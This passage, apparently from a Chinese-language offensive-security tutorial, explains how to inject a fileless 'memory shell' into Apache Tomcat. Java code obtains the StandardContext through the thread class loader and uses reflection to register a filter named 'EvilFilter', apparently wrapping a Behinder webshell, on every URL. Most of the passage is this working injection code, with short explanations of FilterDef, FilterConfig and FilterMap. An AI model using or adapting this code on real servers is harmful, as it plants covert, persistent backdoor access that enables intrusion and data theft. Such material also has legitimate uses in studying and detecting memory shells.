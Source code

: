 ```plain
    filterConfigs.put("EvilFilter", filterConfig);

    //FilterMap
    FilterMap filterMap = new FilterMap();
    filterMap.setFilterName("EvilFilter");
    filterMap.addURLPattern("/*");
    filterMap.setDispatcher(DispatcherType.REQUEST.name());
    context.addFilterMap(filterMap);
%>
```

**FilterDefs**：存放FilterDef的数组 ，**FilterDef** 中存储着我们过滤器名，过滤器实例，作用 url 等基本信息  
**FilterConfigs**：存放filterConfig的数组，在 **FilterConfig** 中主要存放FilterDef和Filter对象等信息  
**FilterMaps**：存放FilterMap的数组，在**FilterMap**中主要存放了FilterName和对应的URLPattern  
按照同样的逻辑，我们编写一个非jsp型的内存马的方式就是，找StandardContext->创建一个filterdef->利用反射找filterconfig，利用之前的filterdef创建相应对象并加到standardcontext里面->创建filtermap写上对应的urlpattern并放到context里面。

#### 内存马实现

编写内存马我们最一开始的出发点就是从获取StandardContext开始的，在网上大多数关于StandardContext在filter内存马当中的获取方式都是通过线程(ContextClassLoader)来获取，其具体情况可以看**bitterz师傅**写的文章[https://xz.aliyun.com/t/9914](https://xz.aliyun.com/t/9914) 其原因是当我们编写非jsp型内存马时，我们已经失去了request对象只能使用其他手段来获取。获取手段如下：

```plain
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
 StandardContext context = (StandardContext) webappClassLoaderBase.getResources().getContext();
```

结合之前的jsp型的内存马，经过简单的替换我们就将filter内存马的主体部分初步完成了，如下所示。这一部分事实上是关于内存马注入的(动态注册filter)，还剩下内存马的主体部分。

```plain
//StandardContext
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
StandardContext context = (StandardContext) webappClassLoaderBase.getResources().getContext();

//FilterDef
Filter filter = new BehinderFilter();
FilterDef filterDef = new FilterDef();
filterDef.setFilter(filter);
filterDef.setFilterName("EvilFilter");
filterDef.setFilterClass(filter.getClass().getName());
context.addFilterDef(filterDef);

//FilterConfig
Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
constructor.setAccessible(true);
ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(context, filterDef);
Field field1 = StandardContext.class.getDeclaredField("filterConfigs");
field1.setAccessible(true);
Map filterConfigs = (Map)field1.get(context);
filterConfigs.put("EvilFilter", filterConfig);

//FilterMap
FilterMap filterMap = new FilterMap();
filterMap.setFilterName("EvilFilter");
filterMap.addURLPattern("/*");
filterMap.setDispatcher(DispatcherType.REQUEST.name());
context.addFilterMap(filterMap);
```
